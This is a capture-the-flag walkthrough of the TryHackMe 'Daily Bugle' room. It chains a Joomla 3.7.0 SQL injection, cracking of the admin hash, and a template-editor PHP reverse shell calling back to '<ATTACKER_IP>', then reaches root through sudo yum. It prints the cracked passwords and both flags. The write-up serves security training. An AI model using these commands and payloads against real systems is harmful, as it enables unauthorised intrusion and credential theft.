



# Walkthrough — Daily Bugle

> Technical narrative, organized by the six-phase methodology: **Recon → Enumeration → Vulnerability Analysis → Exploitation → Post-Exploitation → Reporting**.

**Target:** `10.128.140.121`  ·  **Room:** https://tryhackme.com/room/dailybugle  ·  **Date:** 2026-11-20
**Result:** Full compromise — root.

---

## Phase 1 — Reconnaissance

Confirm the host is alive and find everything it exposes.

```bash
export IP=10.128.140.121
ping -c 3 $IP                                   # ttl=64 -> Linux/Unix host
nmap -p1-65535 --min-rate 10000 -T4 $IP -oN allports.txt
```

Open ports (3 of 65,535):

```
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

> **Scope validation note:** an initial scan accidentally targeted `10.128.75.246`, which `hostname -I` proved to be the attacking AttackBox itself (port 80 served `WebSockify`/noVNC, no DB, microsecond latency). Re-targeted the authorized host. Lesson: always confirm you're pointed at the authorized target, not your own tooling.

**Attack surface:** web app on :80 (primary), MySQL on :3306 (needs creds), SSH on :22 (post-exploitation landing).

---

## Phase 2 — Enumeration

Turn those ports into detail.

```bash
nmap -p22,80,3306 -sC -sV -oN services.txt $IP
```

| Port | Service | Version | Intelligence |
|------|---------|---------|--------------|
| 22 | SSH | OpenSSH 7.4 | ships with CentOS 7 → OS confirmed |
| 80 | HTTP | Apache 2.4.6 (CentOS), **PHP 5.6.40** | PHP 5.6 is EOL/unsupported; dated stack |
| 3306 | MySQL | MariaDB (unauthorized) | reachable but rejects anonymous clients |

Web layer: `http-generator: Joomla!` → CMS is **Joomla**. Manual browse confirmed the Daily Bugle site; front-page article "Written by **Super User**" (the admin's display name).



**Pin the exact Joomla version** (exploits are version-specific):

```bash
curl -s http://$IP/administrator/manifests/files/joomla.xml   # <version>3.7.0</version>
curl -s http://$IP/language/en-GB/en-GB.xml | grep -i version # confirms 3.7.0
```

→ **Joomla 3.7.0.**

---

## Phase 3 — Vulnerability Analysis

**Joomla 3.7.0 → CVE-2017-8917: unauthenticated SQL injection** (Critical, CVSS 9.8).

- **Root cause:** Joomla 3.7.0 shipped the `com_fields` component, exposed to the front end without authentication; its `list[fullordering]` parameter is concatenated into a SQL `ORDER BY` with no sanitisation.
- **Why the version was decisive:** `com_fields` was introduced in 3.7.0 and the flaw was patched in 3.7.1.
- **Impact if valid:** arbitrary read of the Joomla database, including admin credentials → full application takeover.
- **Validation plan:** confirm injection with sqlmap against `list[fullordering]`, then extract `#__users`.

---

## Phase 4 — Exploitation

### 4.1 Confirm SQLi and extract the admin hash

```bash
sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1" \
  -p "list[fullordering]" --risk=3 --level=5 --random-agent --batch --dbs          # injectable; db 'joomla'
sqlmap ... -D joomla --tables                                                       # table #__users
sqlmap ... -D joomla -T '#__users' -C name,username,password,email --dump
```
→ `jonah : $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm` (bcrypt).

### 4.2 Crack the hash (context-driven wordlist)

```bash
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash.txt
grep -i spider /usr/share/wordlists/rockyou.txt > spider.txt   # site is Spider-Man themed
/usr/sbin/john --wordlist=spider.txt hash.txt                   # -> spiderman123 (<1s)
```
Full rockyou gave a 3-day ETA at ~65 c/s (bcrypt is slow by design); a themed wordlist cracked it instantly. **Context beats brute force.**

### 4.3 Admin → RCE (template editor) → reverse shell

Logged into `/administrator` as `jonah:spiderman123` → **Extensions → Templates → Templates → Protostar → `index.php`** → replaced with a PHP reverse shell → Save.



```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'"); ?>
```
```bash
nc -lvnp 4444                                      # listener
curl http://$IP/templates/protostar/index.php      # trigger -> shell as apache
```



**Initial access vector: authenticated Joomla template RCE, reached via the SQLi-derived credential.** Foothold = `apache`.

---

## Phase 5 — Post-Exploitation

### 5.1 Stabilize + situational awareness

```bash
python -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
id                                                 # uid=48(apache)
```

### 5.2 apache → jjameson (plaintext DB password reuse)

```bash
cat /var/www/html/configuration.php | grep -i password   # $password = 'nv5uz9r3ZEDzVjNu';
cat /etc/passwd | grep -E 'sh$'                           # real user: jjameson
su jjameson                                               # password: nv5uz9r3ZEDzVjNu (reused)
cat /home/jjameson/user.txt                               # USER FLAG: 27a260fe3cba712cfdedb1c86d80442e
```

### 5.3 jjameson → root (sudo yum / GTFOBins)

```bash
sudo -l                                                   # (ALL) NOPASSWD: /usr/bin/yum
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF
cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF
cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
    os.execl('/bin/sh','/bin/sh')
EOF
sudo yum -c $TF/x --enableplugin=y                        # -> root shell (sh-4.2#)
id                                                        # uid=0(root)
cat /root/root.txt                                        # ROOT FLAG: eec3d53292b1821868266858d7fa6f79
```

**Cleanup:** removed the reverse shell from `protostar/index.php` and the temp `$TF` dir.

**Full chain:** nmap → Joomla 3.7.0 → CVE-2017-8917 SQLi → crack admin hash → template RCE → `apache` → plaintext/reused DB password → `jjameson` → `sudo yum` → **root**.

---

## Phase 6 — Reporting (risk translation)

See **[`report.md`](./report.md)** for the formal write-up: 6 findings rated by CVSS with business impact and remediation, the attack narrative, and a prioritized remediation roadmap. Headline risk: **Critical — full server compromise** from an unauthenticated start, driven by an outdated CMS, a weak admin password, plaintext credential storage, and a `sudo` misconfiguration.
